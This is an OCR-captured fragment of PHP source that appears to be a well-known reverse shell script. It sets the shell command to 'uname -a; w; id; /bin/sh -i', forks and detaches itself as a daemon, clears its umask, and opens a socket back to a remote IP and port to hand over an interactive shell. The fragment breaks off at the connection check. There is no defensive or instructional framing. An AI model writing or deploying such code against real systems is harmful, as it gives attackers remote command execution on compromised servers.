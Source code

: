 ``` php

$chunk_size = 1400;

$write_a = null;

$error_a = null;

$shell = 'uname -a; w; id; /bin/sh -i';

$daemon = 0;

$debug = 0;
//
// Daemonise ourself if possible to avoid zombies later
//
// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies. Worth a try...

if (function_exists('pcntl_fork')) {

// Fork and have the parent process exit
$pid = pcntl_fork();

if ($pid == -1) {
printit("ERROR: Can't fork");
exit(1);
}
if ($pid) {
exit(0); // Parent exits
}
// Make the current process a session leader
// Will only succeed if we forked

if (posix_setsid() == -1) {

printit("Error: Can't setsid()");

exit(1);

}

$daemon = 1;
} else {
printit("WARNING: Failed to daemonise. This is quite common and not fatal.");
}

// Change to a safe directory

chdir("/");

// Remove any umask we inherited

umask(0);

//
// Do the reverse shell...
//
// Open reverse connection

$sock = fsockopen($ip, $port, $errno, $errstr, 30);

if (!$sock) {

```